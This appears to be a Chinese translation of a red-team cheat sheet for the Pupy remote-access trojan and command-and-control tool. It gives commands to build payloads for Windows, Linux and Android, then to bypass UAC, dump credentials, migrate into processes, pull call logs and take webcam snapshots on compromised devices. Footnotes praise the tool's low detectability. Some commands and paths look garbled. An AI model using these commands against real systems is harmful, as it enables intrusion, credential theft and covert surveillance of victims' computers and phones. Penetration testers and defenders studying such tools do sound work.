 ## 命令与控制工具：Pupy [^2]

### **介绍** [^1]

```bash
git clone https://github.com/n1nj4sec/pupy
ls
./install.sh
cd pupy
pip install -r requirement.txt
./pupysh.ph #运行pupy
./pupygen.py -h #使用pupygen脚本生成有效载荷
```

### **Windows利用**

`./pupygen.py -O windows -A x86 -o /root/Desktop/shell.exe`

### **Windows Post Exploitation**

`msgbox –-title hack "you have been hacked"` 

`rdesktop -r 0` [^3]

`bypassuac -r` [^4]

`creddump` [^5]

`migrate -p explorer.exe -k`

### **Linux利用**

`./pupygen.py -O linux -A x64 -o /root/Desktop.shell`

`check_vm` [^6]

### **Linux Post Exploitation**

`privesc_checker --linenum` [^7]

`exploit_suggester -h`

`exploit_suggester -shell /bin/bash` [^8]

### **Android漏洞利用**

`./pupygen.py -O android -o /root/shell.apk`

### **Android Post Exploitation**

`call -a -output-folder /root/call` [^9]

`webcamsnap -v` [^10]

`apps -a -d` [^11]

[原文](https://www.hackingarticles.in/command-control-tool-pupy/)

---

[^1]: Pupy是一个跨平台的后期开发工具以及一个多功能RAT。它是用python编写的，非常方便。它的可检测性也很低，这就是为什么它是红队的一个很好的工具。Pupy可以使用多个传输进行通信，使用反射注入迁移到进程，并从内存加载远程python代码，python包和python C扩展。它使用一个反射的DLL从内存加载python解释器，这很好，因为磁盘中不会显示任何内容。它没有任何特殊的依赖关系。它还可以迁移到其他进程中。pupy的通信协议是模块化和可堆叠的。它可以同时在多个主机上执行非交互式命令。可以远程访问所有交互式shell。
[^2]: 学习如何利用pupy命令和控制工具来利用Windows，Linux和Android。
[^3]: 使用远程桌面模块使用以下命令访问桌面。执行上述命令后，您可以远程访问桌面 ，使用命令 `http://127.0.0.1:9000/kAu1jxxx`
[^4]: 绕过UAC，这个命令将重新创建具有管理员权限的会话
[^5]: 获取系统的凭据
[^6]: 检查目标计算机是在VM上运行还是主机计算机
[^7]: 获得有关目标系统的详细信息
[^8]: 找到目标系统上正在使用的所有漏洞
[^9]: 获取存储在目标设备上的呼叫日志。**-a：**指获取所有呼叫详细信息 **-output-folder：**指包含呼叫日志的输出文件的路径
[^10]: 目标设备上的主摄像头捕捉。**-v：**指直接查看图像
[^11]: 获取有关目标设备上已安装的软件包或应用程序的信息。**-a：**指获取所有已安装的软件包详细信息 **-d：**查看详细信息